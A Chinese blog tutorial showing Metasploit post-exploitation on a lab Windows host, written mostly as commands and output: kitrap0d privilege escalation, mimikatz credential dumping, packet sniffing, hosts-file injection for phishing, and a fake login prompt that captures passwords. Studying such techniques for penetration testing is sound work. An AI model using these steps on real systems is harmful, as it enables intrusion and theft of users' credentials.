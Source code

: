 ```yaml
---
layout: post
category: binghe-code-hack
title: Metasploit高级扩展功能
tagline: by CurleyG
tag: [hack,binghe-code-hack]
excerpt: Metasploit高级扩展功能
lock: need
---
```


# Metasploit高级扩展功能

### 用Metasploit提升权限 

有时，在使用getsystem提权的时候会失败，此时，我们可以使用后渗透模块将控制权限级别提高至最高级别。这里，我们以Windows Server 2008 SP1操作系统为例，其中，使用本地渗透模块绕过了限制并获得了目标的完全管理权限。

```
meterpreter > back
msf5 > use exploit/windows/local/ms10_015_kitrap0d 
msf5 exploit(windows/local/ms10_015_kitrap0d) > set SESSION 3
msf5 exploit(windows/local/ms10_015_kitrap0d) > exploit
```

这里，我们使用 exploit/windows/local/ms10_015_kitrap0d 模块提升了控制权限，并获得了最高级别的管理权限。

### 使用mimikatz查找明文密码

mimikatz可以直接从lsass服务获取Windows中状态为活跃的账号的明文密码。

可以在Metasploit中使用load mimikatz命令载入mimikatz模块，之后就可以使用mimikatz模块中的kerberos命令来查找密码。

```
meterpreter > load mimikatz 
Loading extension mimikatz...Success.
meterpreter > kerberos 
[+] Running as SYSTEM
[*] Retrieving kerberos credentials
kerberos credentials
====================

AuthID   Package    Domain        User             Password
------   -------    ------        ----             --------
0;62769  NTLM       LIUYAZHUANG   lyz              
0;997    Negotiate  NT AUTHORITY  LOCAL SERVICE    
0;996    Negotiate  NT AUTHORITY  NETWORK SERVICE  
0;52356  NTLM                                      
0;999    NTLM       WORKGROUP     LIUYAZHUANG$     

meterpreter > 
```

这里，我删除了密码。

### 使用Metasploit进行流量嗅探

#### 使用sniffer模块

```
meterpreter > use sniffer 
Loading extension sniffer...Success.
```

#### 列出目标主机上的所有网络接口

```
meterpreter > sniffer_interfaces 

1 - 'VMware Accelerated AMD PCNet Adapter' ( type:0 mtu:1514 usable:true dhcp:true wifi:false )

meterpreter > 
```

#### 启动网络嗅探

```
meterpreter > sniffer_start
[-] Usage: sniffer_start [interface-id] [packet-buffer (1-200000)] [bpf filter (posix meterpreter only)]
meterpreter > 
meterpreter > sniffer_start 1 1000
[*] Capture started on interface 1 (1000 packet buffer)
```

输入sniffer_start 1 1000命令启动网络接口上的嗅探功能，其中1表示网卡ID,1000是缓冲区的大小。

#### 下载pcap数据包

```
meterpreter > sniffer_dump 
[-] Usage: sniffer_dump [interface-id] [pcap-file]
meterpreter > sniffer_dump 1 1.pcap
[*] Flushing packet capture buffer for interface 1...
[*] Flushed 1000 packets (993284 bytes)
[*] Downloaded 052% (524288/993284)...
[*] Downloaded 100% (993284/993284)...
[*] Download completed, converting to PCAP...
[*] PCAP file written to 1.pcap
meterpreter >
```

此时，会把1.pcap下载到/root目录下(前提是用root账户登录的Kali)

#### 使用wireshark查看数据包

```
root@binghe:~# wireshark 1.pcap 
```

![img](https://img-blog.csdnimg.cn/20190127203707765.png)

#### 停止网络嗅探

```
meterpreter > sniffer_stop
[-] Usage: sniffer_stop [interface-id]
meterpreter > 
meterpreter > sniffer_stop 1
[*] Capture stopped on interface 1
[*] There are 74 packets (14485 bytes) remaining
[*] Download or release them using 'sniffer_dump' or 'sniffer_release'
meterpreter > 
```

### 使用Metasploit对host文件进行注入

可以通过对目标主机的host文件进行注入展开钓鱼攻击——将制定域名的条目添加到目标主机的host文件中。

```
meterpreter > background
[*] Backgrounding session 2...
msf5 exploit(windows/http/rejetto_hfs_exec) > sessions -i

Active sessions
===============

  Id  Name  Type                     Information                        Connection
  --  ----  ----                     -----------                        ----------
  2         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ LIUYAZHUANG  192.168.175.128:4444 -> 192.168.175.130:1056 (192.168.175.130)

msf5 exploit(windows/http/rejetto_hfs_exec) > use post/windows/manage/inject_host 
msf5 post(windows/manage/inject_host) > show options

Module options (post/windows/manage/inject_host):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   DOMAIN                    yes       Domain name for host file manipulation.
   IP                        yes       IP address to point domain name to.
   SESSION                   yes       The session to run this module on.

msf5 post(windows/manage/inject_host) > set IP 192.168.175.128
IP => 192.168.175.128
msf5 post(windows/manage/inject_host) > set DOMAIN www.google.com
DOMAIN => www.google.com
msf5 post(windows/manage/inject_host) > set SESSION 2
SESSION => 2
msf5 post(windows/manage/inject_host) > exploit

[*] Inserting hosts file entry pointing www.google.com to 192.168.175.128..
[+] Done!
[*] Post module execution completed
msf5 post(windows/manage/inject_host) > 
msf5 post(windows/manage/inject_host) > sessions

Active sessions
===============

  Id  Name  Type                     Information                        Connection
  --  ----  ----                     -----------                        ----------
  2         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ LIUYAZHUANG  192.168.175.128:4444 -> 192.168.175.130:1056 (192.168.175.130)

msf5 post(windows/manage/inject_host) > 
msf5 post(windows/manage/inject_host) > 
msf5 post(windows/manage/inject_host) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > 
```

此时，在目标机的C:/Windows/System32/drivers/etc/hosts文件中多了一行

```
192.168.175.128 www.google.com
```

如下图所示：

![img](https://img-blog.csdnimg.cn/20190127203850282.png)

此时，在目标机上访问http://www.google.com/，结果如下图：

![img](https://img-blog.csdnimg.cn/20190127203929154.png)

访问的是我们在Kali上配置的页面。

### 登录密码的钓鱼窗口

```
meterpreter > run post/windows/gather/phish_windows_credentials 
```

此时，会在目标主机上弹出外观和Windows系统认证弹窗一样的窗口，这个窗口要求受害者必须输入正确的用户名和密码后才能继续正常工作。

如下图所示：

![img](https://img-blog.csdnimg.cn/20190127204015499.png)

当用户输入了正确的用户名和密码之后，就会在我们的命令行中显示出来，如下图所示：

![img](https://img-blog.csdnimg.cn/20190127204106537.png)



## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
